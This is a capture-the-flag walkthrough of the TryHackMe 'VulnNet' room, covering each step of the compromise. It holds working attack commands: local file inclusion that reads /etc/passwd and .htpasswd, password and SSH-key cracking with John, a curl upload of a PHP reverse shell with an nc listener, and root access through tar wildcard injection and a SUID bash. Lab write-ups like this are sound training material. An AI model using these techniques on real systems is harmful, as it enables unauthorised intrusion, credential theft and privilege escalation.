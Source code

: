
# Room: VulnNet #
**link:** <https://tryhackme.com/room/vulnnet1>  
**Difficulty:** Medium

---
## Description ##
The VulnNet series of rooms on TryHackMe simulates corporate network environments belonging to a fictional company named VulnNet Inc..

---
## Objectives ##
- Objective 1 : find user flag
- Objective 2 : gain root access and find root flag
---
## Skills / Tools Practiced ###
**Skills:** enumeration, web exploitation, privilege escalation, etc.  
**Tools:** nmap, Burpsuite, JohnTheRipper, curl, NetCat, etc.

---
## Requirements ## 
Before Starting add these two lines in your attacker machine's /etc/hosts file.
```bash
Victim's ip   vulnnet.thm
Victim's ip   broadcast.vulnnet.thm
```

---
## Steps for penetrating Machine ##

### 1. Ports & Network Scanning ###
- We'll use Nmap for scanning the network of target's network.
```bash
nmap -p1-1000 -T5  -sV TargetIP

```

- There are 2 open ports. Port 22 is used for SSH, and port 80 serves a web server.
- We start by enumerating the web server. Browsing to http://vulnnet.thm/ we find the following page:

### 2. web server reconnaissance ###
- Opening webserver on browser.
- Viewing its source code.
  
- We got 2 javascript files at last.
- We tried to find some important information using some keywords like (password, secret, token, api, etc) but got nothing. 
-In first JS file, we got `http://broadcast.vulnnet.thm` This gives us the login option before we can see the page.
- In second Javascript file, we got `http://vulnnet.thm/index.php?referer=`
- Note here referer parameter is empty!

### 3. use Burpsuite to abuse the referer parameter & try to perform file inclusion. ###

- open BurpSuite.
- Set manual proxy.
- Turn on intercept.
- Refresh page.
- get request.
- send request to repeater.
- add
```bash
  (referer = /etc/passwd)
```
 after GET /index.php?
- look for exposed contents of /etc/passwd
- we get usernames but not passwd hash.
- add
  ```bash
  /etc/apache2/sites-enabled/000-default.conf
  ```
  
  and send request again.
- We got Auth User file located at `/etc/apache2/.htpasswd`
- We get password hash using the location.
- save the password hash in txt file named hash.txt.

### 4. Using John to crack password hash ###

- use command :
  ```bash
  john hash.txt -wordlist=/usr/share/wordlists/rockyou.txt
  john --show hash.txt
  ```
- We got our password which we can use to login in page which we got from our 1st Javascript file.

### 5. Login using credintials ###

- login to `http://broadcast.vulnnet.thm/` using the credintials we found.
- After login we see clipbucket page as shown below.

- After seeing source code of page, we found the clipbucket version.

### 6. Search for clip bucket version exploit###

- Search for clipbucket version exploit on google.
- By doing some recon about clipbucket v4.0, we got that arbitary file can be uploaded which is vulneriblity.
- before uploading payload, edit the ip address and port number of  php-reverse-shell.php file. 
- use command for arbitary file upload :
```bash
curl -F "file=@php-reverse-shell.php" -F "plupload=1" -F "name=php-reverse-shell.php" http://broadcast.vulnnet.thm/actions/photo_uploader.php -u developers:9972761drmfsls
```
- you have successfully uploaded your payload in server.
### 7. Locating directory ###
- now you have to locate the directory where you have uploaded your payload.
- use dirsearch.
- Browse to http://broadcast.vulnnet.thm/files/ to find a directory listing. Your shell resides within the photos directory. Inside this directory is a directory with the current date.

### 8. Gaining access to machine ###

- Start netcat listner using command :
  ```bash
  nc -lvnp 1234
  ```
- Execute the payload which you've uploaded earlier.
- You got the shell.
- to get access of proper shell use following command:
```bash
 python3 -c "import pty;pty.spawn('bin/bash')"
 ```
- You finally got your proper shell!

### 9. To get userflag ###
- perform following commands in shell.
  ```bash
  cd var
  cd backups
  cp * /tmp
   ```
- One file is copied (i.e. ssh-backup.tar.gz)
- extract it.
```bash
tar xvf ssh-backup.tar.gz
```
- We get one file named id_rsa.
- It's a ssh key.
- Use john to get passphrase of key.
- using passphrase login as server-management user using SSH.
#### Here we got our userflag! ####

### 10. To get Root flag ###
- try to get root access to machine.
- Open cron tab:
  ```bash
  cat /etc/crontab
  ```
- There is a script running every two minutes.
`*/2   * * * *   root    /var/opt/backupsrv.sh`
- Go to that file
- In this file, we got `backup_files="*"`.
- This is Wild Card!
- An attack vector.
- we can Inject some application or code here to get our root access.
```bash
cd /home/server-management/documents
```
- go there
`server-management@vulnnet:~$ cd /home/server-management/Documents
server-management@vulnnet:~/Documents$ ls
'Daily Job Progress Report Format.pdf'  'Employee Search Progress Report.pdf'
server-management@vulnnet:~/Documents$ `
- there is a file named Employee Search Progress Report.pdf which is backuped every 2 minutes.
- To exploit the vulnerability we first need to create a script that will get executed when the cron job run. I created a script called shell.sh that will cause bash binary to have a SUID bit which in turn can be executed using -p flag to drop us to a root shell.
- ```bash
  echo "chmod 4755 /bin/bash" > shell.sh
  ```
- Create 2 files:
  ```bash
  echo "" > "--checkpoint-action=exec=sh shell.sh"
  echo "" > --checkpoint=1
   ls -la /bin/bash
  bash -p
  ```
  you will get root access!
  get the root flag using : 
  ```bash
  ls -la
  cat root.txt
  ```
  #### Here we got our root flag!####
  
